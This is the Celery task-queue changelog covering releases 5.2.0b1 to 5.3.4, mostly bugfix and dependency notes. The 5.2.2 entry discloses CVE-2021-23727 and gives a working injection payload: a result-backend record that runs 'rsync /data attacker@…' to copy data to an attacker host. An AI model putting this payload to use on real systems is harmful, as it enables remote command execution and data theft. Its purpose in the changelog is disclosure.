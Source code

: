 .. _changelog:

================
 Change history
================

This document contains change notes for bugfix & new features
in the main branch & 5.3.x series, please see :ref:`whatsnew-5.3` for
an overview of what's new in Celery 5.3.

.. _version-5.3.4:

5.3.4
=====

:release-date: 2023-09-03 10:10 P.M GMT+2
:release-by: Tomer Nosrati

.. warning::
   This version has reverted the breaking changes introduced in 5.3.2 and 5.3.3:

   - Revert "store children with database backend" (#8475)
   - Revert "Fix eager tasks does not populate name field" (#8476)

- Bugfix: Removed unecessary stamping code from _chord.run() (#8339)
- User guide fix (hotfix for #1755) (#8342)
- store children with database backend (#8338)
- Stamping bugfix with group/chord header errback linking (#8347)
- Use argsrepr and kwargsrepr in LOG_RECEIVED (#8301)
- Fixing minor typo in code example in calling.rst (#8366)
- add documents for timeout settings (#8373)
- fix: copyright year (#8380)
- setup.py: enable include_package_data (#8379)
- Fix eager tasks does not populate name field (#8383)
- Update test.txt dependencies (#8389)
- Update auth.txt deps (#8392)
- Fix backend.get_task_meta ignores the result_extended config parameter in mongodb backend (#8391)
- Support preload options for shell and purge commands (#8374)
- Implement safer ArangoDB queries (#8351)
- integration test: cleanup worker after test case (#8361)
- Added "Tomer Nosrati" to CONTRIBUTORS.txt (#8400)
- Update README.rst (#8404)
- Update README.rst (#8408)
- fix(canvas): add group index when unrolling tasks (#8427)
- fix(beat): debug statement should only log AsyncResult.id if it exists (#8428)
- Lint fixes & pre-commit autoupdate (#8414)
- Update auth.txt (#8435)
- Update mypy on test.txt (#8438)
- added missing kwargs arguments in some cli cmd (#8049)
- Fix #8431: Set format_date to False when calling _get_result_meta on mongo backend (#8432)
- Docs: rewrite out-of-date code (#8441)
- Limit redis client to 4.x since 5.x fails the test suite (#8442)
- Limit tox to < 4.9 (#8443)
- Fixed issue: Flags broker_connection_retry_on_startup & broker_connection_retry aren’t reliable (#8446)
- doc update from #7651 (#8451)
- Remove tox version limit (#8464)
- Fixed AttributeError: 'str' object has no attribute (#8463)
- Upgraded Kombu from 5.3.1 -> 5.3.2 (#8468)
- Document need for CELERY_ prefix on CLI env vars (#8469)
- Use string value for CELERY_SKIP_CHECKS envvar (#8462)
- Revert "store children with database backend" (#8475)
- Revert "Fix eager tasks does not populate name field" (#8476)
- Update Changelog (#8474)
- Remove as it seems to be buggy. (#8340)
- Revert "Add Semgrep to CI" (#8477)
- Revert "Revert "Add Semgrep to CI"" (#8478)

.. _version-5.3.3:

5.3.3 (Yanked)
==============

:release-date: 2023-08-31 1:47 P.M GMT+2
:release-by: Tomer Nosrati

.. warning::
   This version has been yanked due to breaking API changes. The breaking changes include:

   - Store children with database backend (#8338)
   - Fix eager tasks does not populate name field (#8383)

- Fixed changelog for 5.3.2 release docs.

.. _version-5.3.2:

5.3.2 (Yanked)
==============

:release-date: 2023-08-31 1:30 P.M GMT+2
:release-by: Tomer Nosrati

.. warning::
   This version has been yanked due to breaking API changes. The breaking changes include:

   - Store children with database backend (#8338)
   - Fix eager tasks does not populate name field (#8383)

- Bugfix: Removed unecessary stamping code from _chord.run() (#8339)
- User guide fix (hotfix for #1755) (#8342)
- Store children with database backend (#8338)
- Stamping bugfix with group/chord header errback linking (#8347)
- Use argsrepr and kwargsrepr in LOG_RECEIVED (#8301)
- Fixing minor typo in code example in calling.rst (#8366)
- Add documents for timeout settings (#8373)
- Fix: copyright year (#8380)
- Setup.py: enable include_package_data (#8379)
- Fix eager tasks does not populate name field (#8383)
- Update test.txt dependencies (#8389)
- Update auth.txt deps (#8392)
- Fix backend.get_task_meta ignores the result_extended config parameter in mongodb backend (#8391)
- Support preload options for shell and purge commands (#8374)
- Implement safer ArangoDB queries (#8351)
- Integration test: cleanup worker after test case (#8361)
- Added "Tomer Nosrati" to CONTRIBUTORS.txt (#8400)
- Update README.rst (#8404)
- Update README.rst (#8408)
- Fix(canvas): add group index when unrolling tasks (#8427)
- Fix(beat): debug statement should only log AsyncResult.id if it exists (#8428)
- Lint fixes & pre-commit autoupdate (#8414)
- Update auth.txt (#8435)
- Update mypy on test.txt (#8438)
- Added missing kwargs arguments in some cli cmd (#8049)
- Fix #8431: Set format_date to False when calling _get_result_meta on mongo backend (#8432)
- Docs: rewrite out-of-date code (#8441)
- Limit redis client to 4.x since 5.x fails the test suite (#8442)
- Limit tox to < 4.9 (#8443)
- Fixed issue: Flags broker_connection_retry_on_startup & broker_connection_retry aren’t reliable (#8446)
- Doc update from #7651 (#8451)
- Remove tox version limit (#8464)
- Fixed AttributeError: 'str' object has no attribute (#8463)
- Upgraded Kombu from 5.3.1 -> 5.3.2 (#8468)

.. _version-5.3.1:

5.3.1
=====

:release-date: 2023-06-18  8:15 P.M GMT+6
:release-by: Asif Saif Uddin

- Upgrade to latest pycurl release (#7069).
- Limit librabbitmq>=2.0.0; python_version < '3.11' (#8302).
- Added initial support for python 3.11 (#8304).
- ChainMap observers fix (#8305).
- Revert optimization CLI flag behaviour back to original.
- Restrict redis 4.5.5 as it has severe bugs (#8317).
- Tested pypy 3.10 version in CI (#8320).
- Bump new version of kombu to 5.3.1 (#8323).
- Fixed a small float value of retry_backoff (#8295).
- Limit pyro4 up to python 3.10 only as it is (#8324).

.. _version-5.3.0:

5.3.0
=====

:release-date: 2023-06-06 12:00 P.M GMT+6
:release-by: Asif Saif Uddin

- Test kombu 5.3.0 & minor doc update (#8294).
- Update librabbitmq.txt > 2.0.0 (#8292).
- Upgrade syntax to py3.8 (#8281).

.. _version-5.3.0rc2:

5.3.0rc2
========

:release-date: 2023-05-31 9:00 P.M GMT+6
:release-by: Asif Saif Uddin

- Add missing dependency.
- Fix exc_type being the exception instance rather.
- Fixed revoking tasks by stamped headers (#8269).
- Support sqlalchemy 2.0 in tests (#8271).
- Fix docker (#8275).
- Update redis.txt to 4.5 (#8278).
- Update kombu>=5.3.0rc2.


.. _version-5.3.0rc1:

5.3.0rc1
========

:release-date: 2023-05-11 4:24 P.M GMT+2
:release-by: Tomer Nosrati

- fix functiom name by @cuishuang in #8087
- Update CELERY_TASK_EAGER setting in user guide by @thebalaa in #8085
- Stamping documentation fixes & cleanups by @Nusnus in #8092
- switch to maintained pyro5 by @auvipy in #8093
- udate dependencies of tests by @auvipy in #8095
- cryptography==39.0.1 by @auvipy in #8096
- Annotate celery/security/certificate.py by @Kludex in #7398
- Deprecate parse_iso8601 in favor of fromisoformat by @stumpylog in #8098
- pytest==7.2.2 by @auvipy in #8106
- Type annotations for celery/utils/text.py by @max-muoto in #8107
- Update web framework URLs by @sblondon in #8112
- Fix contribution URL by @sblondon in #8111
- Trying to clarify CERT_REQUIRED by @pamelafox in #8113
- Fix potential AttributeError on 'stamps' by @Darkheir in #8115
- Type annotations for celery/apps/beat.py by @max-muoto in #8108
- Fixed bug where retrying a task loses its stamps by @Nusnus in #8120
- Type hints for celery/schedules.py by @max-muoto in #8114
- Reference Gopher Celery in README by @marselester in #8131
- Update sqlalchemy.txt by @auvipy in #8136
- azure-storage-blob 12.15.0 by @auvipy in #8137
- test kombu 5.3.0b3 by @auvipy in #8138
- fix: add expire string parse. by @Bidaya0 in #8134
- Fix worker crash on un-pickleable exceptions by @youtux in #8133
- CLI help output: avoid text rewrapping by click by @woutdenolf in #8152
- Warn when an unnamed periodic task override another one. by @iurisilvio in #8143
- Fix Task.handle_ignore not wrapping exceptions properly by @youtux in #8149
- Hotfix for (#8120) - Stamping bug with retry by @Nusnus in #8158
- Fix integration test by @youtux in #8156
- Fixed bug in revoke_by_stamped_headers where impl did not match doc by @Nusnus in #8162
- Align revoke and revoke_by_stamped_headers return values (terminate=True) by @Nusnus in #8163
- Update & simplify GHA pip caching by @stumpylog in #8164
- Update auth.txt by @auvipy in #8167
- Update test.txt versions by @auvipy in #8173
- remove extra = from test.txt by @auvipy in #8179
- Update sqs.txt kombu[sqs]>=5.3.0b3 by @auvipy in #8174
- Added signal triggered before fork by @jaroslawporada in #8177
- Update documentation on SQLAlchemy by @max-muoto in #8188
- Deprecate pytz and use zoneinfo by @max-muoto in #8159
- Update dev.txt by @auvipy in #8192
- Update test.txt by @auvipy in #8193
- Update test-integration.txt by @auvipy in #8194
- Update zstd.txt by @auvipy in #8195
- Update s3.txt by @auvipy in #8196
- Update msgpack.txt by @auvipy in #8199
- Update solar.txt by @auvipy in #8198
- Add Semgrep to CI by @Nusnus in #8201
- Added semgrep to README.rst by @Nusnus in #8202
- Update django.txt by @auvipy in #8197
- Update redis.txt 4.3.6 by @auvipy in #8161
- start removing codecov from pypi by @auvipy in #8206
- Update test.txt dependencies by @auvipy in #8205
- Improved doc for: worker_deduplicate_successful_tasks by @Nusnus in #8209
- Renamed revoked_headers to revoked_stamps by @Nusnus in #8210
- Ensure argument for map is JSON serializable by @candleindark in #8229

.. _version-5.3.0b2:

5.3.0b2
=======

:release-date: 2023-02-19 1:47 P.M GMT+2
:release-by: Asif Saif Uddin

- BLM-2: Adding unit tests to chord clone by @Nusnus in #7668
- Fix unknown task error typo by @dcecile in #7675
- rename redis integration test class so that tests are executed by @wochinge in #7684
- Check certificate/private key type when loading them by @qrmt in #7680
- Added integration test_chord_header_id_duplicated_on_rabbitmq_msg_duplication() by @Nusnus in #7692
- New feature flag: allow_error_cb_on_chord_header - allowing setting an error callback on chord header by @Nusnus in #7712
- Update README.rst sorting Python/Celery versions by @andrebr in #7714
- Fixed a bug where stamping a chord body would not use the correct stamping method by @Nusnus in #7722
- Fixed doc duplication typo for Signature.stamp() by @Nusnus in #7725
- Fix issue 7726: variable used in finally block may not be instantiated by @woutdenolf in #7727
- Fixed bug in chord stamping with another chord as a body + unit test by @Nusnus in #7730
- Use "describe_table" not "create_table" to check for existence of DynamoDB table by @maxfirman in #7734
- Enhancements for task_allow_error_cb_on_chord_header tests and docs by @Nusnus in #7744
- Improved custom stamping visitor documentation by @Nusnus in #7745
- Improved the coverage of test_chord_stamping_body_chord() by @Nusnus in #7748
- billiard >= 3.6.3.0,<5.0 for rpm by @auvipy in #7764
- Fixed memory leak with ETA tasks at connection error when worker_cancel_long_running_tasks_on_connection_loss is enabled by @Nusnus in #7771
- Fixed bug where a chord with header of type tuple was not supported in the link_error flow for task_allow_error_cb_on_chord_header flag by @Nusnus in #7772
- Scheduled weekly dependency update for week 38 by @pyup-bot in #7767
- recreate_module: set spec to the new module by @skshetry in #7773
- Override integration test config using integration-tests-config.json by @thedrow in #7778
- Fixed error handling bugs due to upgrade to a newer version of billiard by @Nusnus in #7781
- Do not recommend using easy_install anymore by @jugmac00 in #7789
- GitHub Workflows security hardening by @sashashura in #7768
- Update ambiguous acks_late doc by @Zhong-z in #7728
- billiard >=4.0.2,<5.0 by @auvipy in #7720
- importlib_metadata remove deprecated entry point interfaces by @woutdenolf in #7785
- Scheduled weekly dependency update for week 41 by @pyup-bot in #7798
- pyzmq>=22.3.0 by @auvipy in #7497
- Remove amqp from the BACKEND_ALISES list by @Kludex in #7805
- Replace print by logger.debug by @Kludex in #7809
- Ignore coverage on except ImportError by @Kludex in #7812
- Add mongodb dependencies to test.txt by @Kludex in #7810
- Fix grammar typos on the whole project by @Kludex in #7815
- Remove isatty wrapper function by @Kludex in #7814
- Remove unused variable _range by @Kludex in #7813
- Add type annotation on concurrency/threads.py by @Kludex in #7808
- Fix linter workflow by @Kludex in #7816
- Scheduled weekly dependency update for week 42 by @pyup-bot in #7821
- Remove .cookiecutterrc by @Kludex in #7830
- Remove .coveragerc file by @Kludex in #7826
- kombu>=5.3.0b2 by @auvipy in #7834
- Fix readthedocs build failure by @woutdenolf in #7835
- Fixed bug in group, chord, chain stamp() method, where the visitor overrides the previously stamps in tasks of these objects by @Nusnus in #7825
- Stabilized test_mutable_errback_called_by_chord_from_group_fail_multiple by @Nusnus in #7837
- Use SPDX license expression in project metadata by @RazerM in #7845
- New control command revoke_by_stamped_headers by @Nusnus in #7838
- Clarify wording in Redis priority docs by @strugee in #7853
- Fix non working example of using celery_worker pytest fixture by @paradox-lab in #7857
- Removed the mandatory requirement to include stamped_headers key when implementing on_signature() by @Nusnus in #7856
- Update serializer docs by @sondrelg in #7858
- Remove reference to old Python version by @Kludex in #7829
- Added on_replace() to Task to allow manipulating the replaced sig with custom changes at the end of the task.replace() by @Nusnus in #7860
- Add clarifying information to completed_count documentation by @hankehly in #7873
- Stabilized test_revoked_by_headers_complex_canvas by @Nusnus in #7877
- StampingVisitor will visit the callbacks and errbacks of the signature by @Nusnus in #7867
- Fix "rm: no operand" error in clean-pyc script by @hankehly in #7878
- Add --skip-checks flag to bypass django core checks by @mudetz in #7859
- Scheduled weekly dependency update for week 44 by @pyup-bot in #7868
- Added two new unit tests to callback stamping by @Nusnus in #7882
- Sphinx extension: use inspect.signature to make it Python 3.11 compatible by @mathiasertl in #7879
- cryptography==38.0.3 by @auvipy in #7886
- Canvas.py doc enhancement by @Nusnus in #7889
- Fix typo by @sondrelg in #7890
- fix typos in optional tests by @hsk17 in #7876
- Canvas.py doc enhancement by @Nusnus in #7891
- Fix revoke by headers tests stability by @Nusnus in #7892
- feat: add global keyprefix for backend result keys by @kaustavb12 in #7620
- Canvas.py doc enhancement by @Nusnus in #7897
- fix(sec): upgrade sqlalchemy to 1.2.18 by @chncaption in #7899
- Canvas.py doc enhancement by @Nusnus in #7902
- Fix test warnings by @ShaheedHaque in #7906
- Support for out-of-tree worker pool implementations by @ShaheedHaque in #7880
- Canvas.py doc enhancement by @Nusnus in #7907
- Use bound task in base task example. Closes #7909 by @WilliamDEdwards in #7910
- Allow the stamping visitor itself to set the stamp value type instead of casting it to a list by @Nusnus in #7914
- Stamping a task left the task properties dirty by @Nusnus in #7916
- Fixed bug when chaining a chord with a group by @Nusnus in #7919
- Fixed bug in the stamping visitor mechanism where the request was lacking the stamps in the 'stamps' property by @Nusnus in #7928
- Fixed bug in task_accepted() where the request was not added to the requests but only to the active_requests by @Nusnus in #7929
- Fix bug in TraceInfo._log_error() where the real exception obj was hiding behind 'ExceptionWithTraceback' by @Nusnus in #7930
- Added integration test: test_all_tasks_of_canvas_are_stamped() by @Nusnus in #7931
- Added new example for the stamping mechanism: examples/stamping by @Nusnus in #7933
- Fixed a bug where replacing a stamped task and stamping it again by @Nusnus in #7934
- Bugfix for nested group stamping on task replace by @Nusnus in #7935
- Added integration test test_stamping_example_canvas() by @Nusnus in #7937
- Fixed a bug in losing chain links when unchaining an inner chain with links by @Nusnus in #7938
- Removing as not mandatory by @auvipy in #7885
- Housekeeping for Canvas.py by @Nusnus in #7942
- Scheduled weekly dependency update for week 50 by @pyup-bot in #7954
- try pypy 3.9 in CI by @auvipy in #7956
- sqlalchemy==1.4.45 by @auvipy in #7943
- billiard>=4.1.0,<5.0 by @auvipy in #7957
- feat(typecheck): allow changing type check behavior on the app level; by @moaddib666 in #7952
- Add broker_channel_error_retry option by @nkns165 in #7951
- Add beat_cron_starting_deadline_seconds to prevent unwanted cron runs by @abs25 in #7945
- Scheduled weekly dependency update for week 51 by @pyup-bot in #7965
- Added doc to "retry_errors" newly supported field of "publish_retry_policy" of the task namespace by @Nusnus in #7967
- Renamed from master to main in the docs and the CI workflows by @Nusnus in #7968
- Fix docs for the exchange to use with worker_direct by @alessio-b2c2 in #7973
- Pin redis==4.3.4 by @auvipy in #7974
- return list of nodes to make sphinx extension compatible with Sphinx 6.0 by @mathiasertl in #7978
- use version range redis>=4.2.2,<4.4.0 by @auvipy in #7980
- Scheduled weekly dependency update for week 01 by @pyup-bot in #7987
- Add annotations to minimise differences with celery-aio-pool's tracer.py. by @ShaheedHaque in #7925
- Fixed bug where linking a stamped task did not add the stamp to the link's options by @Nusnus in #7992
- sqlalchemy==1.4.46 by @auvipy in #7995
- pytz by @auvipy in #8002
- Fix few typos, provide configuration + workflow for codespell to catch any new by @yarikoptic in #8023
- RabbitMQ links update by @arnisjuraga in #8031
- Ignore files generated by tests by @Kludex in #7846
- Revert "sqlalchemy==1.4.46 (#7995)" by @Nusnus in #8033
- Fixed bug with replacing a stamped task with a chain or a group (inc. links/errlinks) by @Nusnus in #8034
- Fixed formatting in setup.cfg that caused flake8 to misbehave by @Nusnus in #8044
- Removed duplicated import Iterable by @Nusnus in #8046
- Fix docs by @Nusnus in #8047
- Document --logfile default by @strugee in #8057
- Stamping Mechanism Refactoring by @Nusnus in #8045
- result_backend_thread_safe config shares backend across threads by @CharlieTruong in #8058
- Fix cronjob that use day of month and negative UTC timezone by @pkyosx in #8053
- Stamping Mechanism Examples Refactoring by @Nusnus in #8060
- Fixed bug in Task.on_stamp_replaced() by @Nusnus in #8061
- Stamping Mechanism Refactoring 2 by @Nusnus in #8064
- Changed default append_stamps from True to False (meaning duplicates … by @Nusnus in #8068
- typo in comment: mailicious => malicious by @yanick in #8072
- Fix command for starting flower with specified broker URL by @ShukantPal in #8071
- Improve documentation on ETA/countdown tasks (#8069) by @norbertcyran in #8075

.. _version-5.3.0b1:

5.3.0b1
=======

:release-date: 2022-08-01 5:15 P.M UTC+6:00
:release-by: Asif Saif Uddin

- Canvas Header Stamping (#7384).
- async chords should pass it's kwargs to the group/body.
- beat: Suppress banner output with the quiet option (#7608).
- Fix honor Django's TIME_ZONE setting.
- Don't warn about DEBUG=True for Django.
- Fixed the on_after_finalize cannot access tasks due to deadlock.
- Bump kombu>=5.3.0b1,<6.0.
- Make default worker state limits configurable (#7609).
- Only clear the cache if there are no active writers.
- Billiard 4.0.1

.. _version-5.3.0a1:

5.3.0a1
=======

:release-date: 2022-06-29 5:15 P.M UTC+6:00
:release-by: Asif Saif Uddin

- Remove Python 3.4 compatibility code.
- call ping to set connection attr for avoiding redis parse_response error.
- Use importlib instead of deprecated pkg_resources.
- fix #7245 uid duplicated in command params.
- Fix subscribed_to maybe empty (#7232).
- Fix: Celery beat sleeps 300 seconds sometimes even when it should run a task within a few seconds (e.g. 13 seconds) #7290.
- Add security_key_password option (#7292).
- Limit elasticsearch support to below version 8.0.
- try new major release of pytest 7 (#7330).
- broker_connection_retry should no longer apply on startup (#7300).
- Remove __ne__ methods (#7257).
- fix #7200 uid and gid.
- Remove exception-throwing from the signal handler.
- Add mypy to the pipeline (#7383).
- Expose more debugging information when receiving unknown tasks. (#7405)
- Avoid importing buf_t from billiard's compat module as it was removed.
- Avoid negating a constant in a loop. (#7443)
- Ensure expiration is of float type when migrating tasks (#7385).
- load_extension_class_names - correct module_name (#7406)
- Bump pymongo[srv]>=4.0.2.
- Use inspect.getgeneratorstate in asynpool.gen_not_started (#7476).
- Fix test with missing .get() (#7479).
- azure-storage-blob>=12.11.0
- Make start_worker, setup_default_app reusable outside of pytest.
- Ensure a proper error message is raised when id for key is empty (#7447).
- Crontab string representation does not match UNIX crontab expression.
- Worker should exit with ctx.exit to get the right exitcode for non-zero.
- Fix expiration check (#7552).
- Use callable built-in.
- Include dont_autoretry_for option in tasks. (#7556)
- fix: Syntax error in arango query.
- Fix custom headers propagation on task retries (#7555).
- Silence backend warning when eager results are stored.
- Reduce prefetch count on restart and gradually restore it (#7350).
- Improve workflow primitive subclassing (#7593).
- test kombu>=5.3.0a1,<6.0 (#7598).
- Canvas Header Stamping (#7384).

.. _version-5.2.7:

5.2.7
=====

:release-date: 2022-5-26 12:15 P.M UTC+2:00
:release-by: Omer Katz

- Fix packaging issue which causes poetry 1.2b1 and above to fail install Celery (#7534).

.. _version-5.2.6:

5.2.6
=====

:release-date: 2022-4-04 21:15 P.M UTC+2:00
:release-by: Omer Katz

- load_extension_class_names - correct module_name (#7433).
    This fixes a regression caused by #7218.

.. _version-5.2.5:

5.2.5
=====

:release-date: 2022-4-03 20:42 P.M UTC+2:00
:release-by: Omer Katz

**This release was yanked due to a regression caused by the PR below**

- Use importlib instead of deprecated pkg_resources (#7218).

.. _version-5.2.4:

5.2.4
=====

:release-date: 2022-4-03 20:30 P.M UTC+2:00
:release-by: Omer Katz

- Expose more debugging information when receiving unknown tasks (#7404).

.. _version-5.2.3:

5.2.3
=====

:release-date: 2021-12-29 12:00 P.M UTC+6:00
:release-by: Asif Saif Uddin

- Allow redis >= 4.0.2.
- Upgrade minimum required pymongo version to 3.11.1.
- tested pypy3.8 beta (#6998).
- Split Signature.__or__ into subclasses' __or__ (#7135).
- Prevent duplication in event loop on Consumer restart.
- Restrict setuptools>=59.1.1,<59.7.0.
- Kombu bumped to v5.2.3
- py-amqp bumped to v5.0.9
- Some docs & CI improvements.


.. _version-5.2.2:

5.2.2
=====

:release-date: 2021-12-26 16:30 P.M UTC+2:00
:release-by: Omer Katz

- Various documentation fixes.
- Fix CVE-2021-23727 (Stored Command Injection security vulnerability).

    When a task fails, the failure information is serialized in the backend.
    In some cases, the exception class is only importable from the
    consumer's code base. In this case, we reconstruct the exception class
    so that we can re-raise the error on the process which queried the
    task's result. This was introduced in #4836.
    If the recreated exception type isn't an exception, this is a security issue.
    Without the condition included in this patch, an attacker could inject a remote code execution instruction such as:
    ``os.system("rsync /data attacker@192.168.56.100:~/data")``
    by setting the task's result to a failure in the result backend with the os,
    the system function as the exception type and the payload ``rsync /data attacker@192.168.56.100:~/data`` as the exception arguments like so:

    .. code-block:: python

        {
              "exc_module": "os",
              'exc_type': "system",
              "exc_message": "rsync /data attacker@192.168.56.100:~/data"
        }

    According to my analysis, this vulnerability can only be exploited if
    the producer delayed a task which runs long enough for the
    attacker to change the result mid-flight, and the producer has
    polled for the task's result.
    The attacker would also have to gain access to the result backend.
    The severity of this security vulnerability is low, but we still
    recommend upgrading.


.. _version-5.2.1:

5.2.1
=====

:release-date: 2021-11-16 8.55 P.M UTC+6:00
:release-by: Asif Saif Uddin

- Fix rstrip usage on bytes instance in ProxyLogger.
- Pass logfile to ExecStop in celery.service example systemd file.
- fix: reduce latency of AsyncResult.get under gevent (#7052)
- Limit redis version: <4.0.0.
- Bump min kombu version to 5.2.2.
- Change pytz>dev to a PEP 440 compliant pytz>0.dev.0.
- Remove dependency to case (#7077).
- fix: task expiration is timezone aware if needed (#7065).
- Initial testing of pypy-3.8 beta to CI.
- Docs, CI & tests cleanups.


.. _version-5.2.0:

5.2.0
=====

:release-date: 2021-11-08 7.15 A.M UTC+6:00
:release-by: Asif Saif Uddin

- Prevent from subscribing to empty channels (#7040)
- fix register_task method.
- Fire task failure signal on final reject (#6980)
- Limit pymongo version: <3.12.1 (#7041)
- Bump min kombu version to 5.2.1

.. _version-5.2.0rc2:

5.2.0rc2
========

:release-date: 2021-11-02 1.54 P.M UTC+3:00
:release-by: Naomi Elstein

- Bump Python 3.10.0 to rc2.
- [pre-commit.ci] pre-commit autoupdate (#6972).
- autopep8.
- Prevent worker to send expired revoked items upon hello command (#6975).
- docs: clarify the 'keeping results' section (#6979).
- Update deprecated task module removal in 5.0 documentation (#6981).
- [pre-commit.ci] pre-commit autoupdate.
- try python 3.10 GA.
- mention python 3.10 on readme.
- Documenting the default consumer_timeout value for rabbitmq >= 3.8.15.
- Azure blockblob backend parametrized connection/read timeouts (#6978).
- Add as_uri method to azure block blob backend.
- Add possibility to override backend implementation with celeryconfig (#6879).
- [pre-commit.ci] pre-commit autoupdate.
- try to fix deprecation warning.
- [pre-commit.ci] pre-commit autoupdate.
- not needed anyore.
- not needed anyore.
- not used anymore.
- add github discussions forum

.. _version-5.2.0rc1:

5.2.0rc1
========
:release-date: 2021-09-26 4.04 P.M UTC+3:00
:release-by: Omer Katz

- Kill all workers when main process exits in prefork model (#6942).
- test kombu 5.2.0rc1 (#6947).
- try moto 2.2.x (#6948).
- Prepared Hacker News Post on Release Action.
- update setup with python 3.7 as minimum.
- update kombu on setupcfg.
- Added note about automatic killing all child processes of worker after its termination.
- [pre-commit.ci] pre-commit autoupdate.
- Move importskip before greenlet import (#6956).
- amqp: send expiration field to broker if requested by user (#6957).
- Single line drift warning.
- canvas: fix kwargs argument to prevent recursion (#6810) (#6959).
- Allow to enable Events with app.conf mechanism.
- Warn when expiration date is in the past.
- Add the Framework :: Celery trove classifier.
- Give indication whether the task is replacing another (#6916).
- Make setup.py executable.
- Bump version: 5.2.0b3 → 5.2.0rc1.

.. _version-5.2.0b3:

5.2.0b3
=======

:release-date: 2021-09-02 8.38 P.M UTC+3:00
:release-by: Omer Katz

- Add args to LOG_RECEIVED (fixes #6885) (#6898).
- Terminate job implementation for eventlet concurrency backend (#6917).
- Add cleanup implementation to filesystem backend (#6919).
- [pre-commit.ci] pre-commit autoupdate (#69).
- Add before_start hook (fixes #4110) (#6923).
- Restart consumer if connection drops (#6930).
- Remove outdated optimization documentation (#6933).
- added https verification check functionality in arangodb backend (#6800).
- Drop Python 3.6 support.
- update supported python versions on readme.
- [pre-commit.ci] pre-commit autoupdate (#6935).
- Remove appveyor configuration since we migrated to GA.
- pyugrade is now set to upgrade code to 3.7.
- Drop exclude statement since we no longer test with pypy-3.6.
- 3.10 is not GA so it's not supported yet.
- Celery 5.1 or earlier support Python 3.6.
- Fix linting error.
- fix: Pass a Context when chaining fail results (#6899).
- Bump version: 5.2.0b2 → 5.2.0b3.

.. _version-5.2.0b2:

5.2.0b2
=======

:release-date: 2021-08-17 5.35 P.M UTC+3:00
:release-by: Omer Katz

- Test windows on py3.10rc1 and pypy3.7 (#6868).
- Route chord_unlock task to the same queue as chord body (#6896).
- Add message properties to app.tasks.Context (#6818).
- handle already converted LogLevel and JSON (#6915).
- 5.2 is codenamed dawn-chorus.
- Bump version: 5.2.0b1 → 5.2.0b2.

.. _version-5.2.0b1:

5.2.0b1
=======

:release-date: 2021-08-11 5.42 P.M UTC+3:00
:release-by: Omer Katz

- Add Python 3.10 support (#6807).
- Fix docstring for Signal.send to match code (#6835).
- No blank line in log output (#6838).
- Chords get body_type independently to handle cases where body.type does not exist (#6847).
- Fix #6844 by allowing safe queries via app.inspect().active() (#6849).
- Fix multithreaded backend usage (#6851).
- Fix Open Collective donate button (#6848).
- Fix setting worker concurrency option after signal (#6853).
- Make ResultSet.on_ready promise hold a weakref to self (#6784).
- Update configuration.rst.
- Discard jobs on flush if synack isn't enabled (#6863).
- Bump click version to 8.0 (#6861).
- Amend IRC network link to Libera (#6837).
- Import celery lazily in pytest plugin and unignore flake8 F821, "undefined name '...'" (#6872).
- Fix inspect --json output to return valid json without --quiet.
- Remove celery.task references in modules, docs (#6869).
-  The Consul backend must correctly associate requests and responses (#6823).
